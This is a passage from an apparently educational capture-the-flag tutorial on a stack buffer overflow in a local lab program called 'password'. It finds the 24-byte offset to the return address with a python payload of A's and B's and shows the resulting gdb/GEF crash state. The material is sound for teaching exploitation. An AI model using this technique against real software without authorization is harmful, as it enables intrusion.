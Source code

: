 ```sh
zsh: segmentation fault  ./password < test
```

This takes some trial and error, but after some time, we can figure out that the program does not crash after 23 A's, but it does crash after 24 A's. This tells us that the return address appears 24 bytes after the start of the buffer, and we need to type at least 24 bytes before we can set the return address. If, for example, we type out a bunch of B's after 24 A's, then the return address will be set equal to 0x4242424242424242 (ASCII code for eight B's).

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'BBBBBBBB')" > test

$ gdb password
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
76 commands loaded for GDB 10.1 using Python engine 3.9
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from password...
(No debugging symbols found in password)
gef➤  run < test
Starting program: /home/nihaal/Desktop/ctf-courses/Pwn/PWN 200/password < test
Enter the password: Invalid password.

Program received signal SIGSEGV, Segmentation fault.
0x0000555555555206 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7edded3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffdfb8  →  "BBBBBBBB"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00005555555592a0  →  "Enter the password: Invalid password.\n"
$rdi   : 0x00007ffff7fb0670  →  0x0000000000000000
$rip   : 0x0000555555555206  →  <main+114> ret
$r8    : 0x12
$r9    : 0x00007ffff7fadbe0  →  0x000055555555a6b0  →  0x0000000000000000
$r10   : 0x00007ffff7feeb70  →  <strcmp+2864> pxor xmm0, xmm0
$r11   : 0x246
$r12   : 0x0000555555555090  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
```